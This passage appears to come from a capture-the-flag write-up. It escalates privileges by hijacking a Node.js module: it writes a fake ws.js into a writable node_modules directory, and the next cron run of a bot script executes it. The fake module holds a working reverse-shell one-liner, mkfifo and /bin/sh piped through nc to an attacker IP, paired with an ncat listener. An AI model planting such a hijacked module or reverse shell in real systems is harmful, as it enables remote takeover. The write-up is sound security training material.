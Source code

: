 Looking at the log file it generates, it seems to be executed every minute.

```
crossfit2$ cat /tmp/chatbot.log
2021.08.11, 16:27:12.0414 UTC -> Bot is alive
2021.08.11, 16:28:02.0464 UTC -> Bot is alive
2021.08.11, 16:29:02.0680 UTC -> Bot is alive
2021.08.11, 16:30:02.0860 UTC -> Bot is down (failed to connect)
2021.08.11, 16:31:01.0937 UTC -> Bot is alive
2021.08.11, 16:32:03.0255 UTC -> Bot is alive
...[snip]...
2021.08.12, 07:57:03.0228 UTC -> Bot is alive
2021.08.12, 07:58:03.0054 UTC -> Bot is alive
2021.08.12, 07:59:03.0251 UTC -> Bot is alive
2021.08.12, 08:00:02.0804 UTC -> Bot is alive
2021.08.12, 08:01:01.0849 UTC -> Bot is alive
2021.08.12, 08:02:04.0961 UTC -> Bot is alive
```

The script imports 3 modules which is interesting because we can write in the path above it. The way node searches for modules is the following. First it looks if the module is a core module. If it is not it looks in the current directory and THEN traverses back up the directory structure to look for a `node_modules` directory. Since we have the right to write in the `/opt/sysadmin/` directory we can hijack a module that is being importet to execute a reverse shell.

We first set up our ncat listener again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we create a `/opt/sysadmin/node_modules` directory and a `/opt/sysadmin/node_modules/ws.js` file which contains our reverse shell. The next time the `statbot.js` is now executed our reverse shell get's imported and executed.

```
crossfit2$ mkdir /opt/sysadmin/node_modules
crossfit2$ vi /opt/sysadmin/node_modules/ws.js
```

`ws.js`
```js
module.exports = class WebSocket{
   constructor(stuff){
     this.stuff = stuff;
   }
   on(doesnt, matter){
     require('child_process').exec('rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.65 7575 >/tmp/g');
 }
}
```
